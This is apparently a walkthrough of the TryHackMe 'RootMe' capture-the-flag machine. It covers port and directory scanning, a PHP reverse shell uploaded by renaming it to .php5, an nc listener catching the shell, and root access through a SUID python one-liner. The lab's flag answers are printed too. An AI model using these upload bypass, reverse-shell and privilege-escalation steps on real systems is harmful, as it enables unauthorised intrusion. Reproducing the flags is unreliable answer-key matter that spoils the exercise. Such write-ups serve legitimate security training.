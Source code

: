 # [Task 2] Reconnaissance

## #2.1 - Scan the machine, how many ports are open?

Nmap reveals that there are 2 open ports, respectively `ssh` and `http` on ports `22/tcp` and `80/tcp`.

~~~
$ nmap -sC -sV -A 10.10.180.101
Starting Nmap 7.80 ( https://nmap.org ) at 2020-09-14 19:49 CEST
Nmap scan report for 10.10.180.101
Host is up (0.048s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4a:b9:16:08:84:c2:54:48:ba:5c:fd:3f:22:5f:22:14 (RSA)
|   256 a9:a6:86:e8:ec:96:c3:f0:03:cd:16:d5:49:73:d0:82 (ECDSA)
|_  256 22:f6:b5:a6:54:d9:78:7c:26:03:5a:95:f3:f9:df:cd (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: HackIT - Home
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 18.52 seconds
~~~

Answer: `2`

## #2.2 - What version of Apache are running?

Answer: `2.4.29`

## #2.3 - What service is running on port 22?

Answer: `ssh`

## #2.4 - Find directories on the web server using the GoBuster tool.

Enumerating the web service with gobuster reveals 2 interesting hidden locations: `/panel` and `/uploads`.

~~~
kali@kali:/data/RootMe$ gobuster dir -u http://10.10.180.101 -w /usr/share/wordlists/dirb/common.txt 
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.180.101
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirb/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/09/14 19:52:48 Starting gobuster
===============================================================
/.hta (Status: 403)
/.htpasswd (Status: 403)
/.htaccess (Status: 403)
/css (Status: 301)
/index.php (Status: 200)
/js (Status: 301)
/panel (Status: 301)
/server-status (Status: 403)
/uploads (Status: 301)
===============================================================
2020/09/14 19:53:33 Finished
===============================================================
~~~

## #2.5 - What is the hidden directory?

Answer: `/panel/`

# [Task 3] Getting a shell

## #3.1 - Find a form to upload and get a reverse shell, and find the flag (`user.txt`)

Trying to upload a `*.php` file (you can download a PHP reverse shell from [pentestmonkey](http://pentestmonkey.net/tools/php-reverse-shell/php-reverse-shell-1.0.tar.gz)) produces the following error message:

~~~
PHP não é permitido!
~~~

All you need to do is to use the `*.php5` extension (e.g. `shell.php5`) and upload the file. Once done, start a listener:

~~~
$ rlwrap nc -nlvp 4444
~~~

And call the PHP reverse shell:

~~~
$ curl http://10.10.180.101/uploads/shell.php5
~~~

In our reverse shell:

~~~
kali@kali:/data/RootMe/files$ rlwrap nc -nlvp 4444
listening on [any] 4444 ...
connect to [10.8.50.72] from (UNKNOWN) [10.10.180.101] 34592
Linux rootme 4.15.0-112-generic #113-Ubuntu SMP Thu Jul 9 23:41:39 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 18:08:42 up 21 min,  0 users,  load average: 0.00, 0.06, 0.31
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ 
~~~

Now, let's get the user flag:

~~~
$ cd /var/www
$ ls -la
total 20
drwxr-xr-x  3 www-data www-data 4096 Aug  4 17:54 .
drwxr-xr-x 14 root     root     4096 Aug  4 15:08 ..
-rw-------  1 www-data www-data  129 Aug  4 17:54 .bash_history
drwxr-xr-x  6 www-data www-data 4096 Aug  4 17:19 html
-rw-r--r--  1 www-data www-data   21 Aug  4 17:30 user.txt
$ cat user.txt
THM{y0u_g0t_a_sh3ll}
~~~

Answer: `THM{y0u_g0t_a_sh3ll}`


# [Task 4] Privilege escalation

Now that we have a shell, let's escalate our privileges to root.

## #4.1 - Search for files with SUID permission, which file is weird?

Checking for files owned by `root` with the `SUID` bit set reveals that `python` is one of them:

~~~
bash-4.4$ find / -type f -user root -perm -u=s 2>/dev/null

[REDACTED]

/usr/bin/python

[REDACTED]
~~~

Answer: `/usr/bin/python`

## #4.2 - Find a form to escalate your privileges.

Checking on [GTFOBins](https://gtfobins.github.io/gtfobins/python/#suid) confirms that we can take advantage of it to elevate our privileges:

~~~
bash-4.4$ python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
# id
id
uid=33(www-data) gid=33(www-data) euid=0(root) egid=0(root) groups=0(root),33(www-data)
~~~

## #4.3 - root.txt

Let's get the root flag:

~~~
# cd /root
cd /root
# ls -la
ls -la
total 40
drwx------  6 root root 4096 Aug  4 17:54 .
drwxr-xr-x 24 root root 4096 Aug  4 14:54 ..
-rw-------  1 root root 1423 Aug  4 17:54 .bash_history
-rw-r--r--  1 root root 3106 Apr  9  2018 .bashrc
drwx------  2 root root 4096 Aug  4 17:08 .cache
drwx------  3 root root 4096 Aug  4 17:08 .gnupg
drwxr-xr-x  3 root root 4096 Aug  4 16:26 .local
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
drwx------  2 root root 4096 Aug  4 15:03 .ssh
-rw-r--r--  1 root root   26 Aug  4 17:31 root.txt
# cat root.txt
cat root.txt
THM{pr1v1l3g3_3sc4l4t10n}
~~~

Answer: `THM{pr1v1l3g3_3sc4l4t10n}`
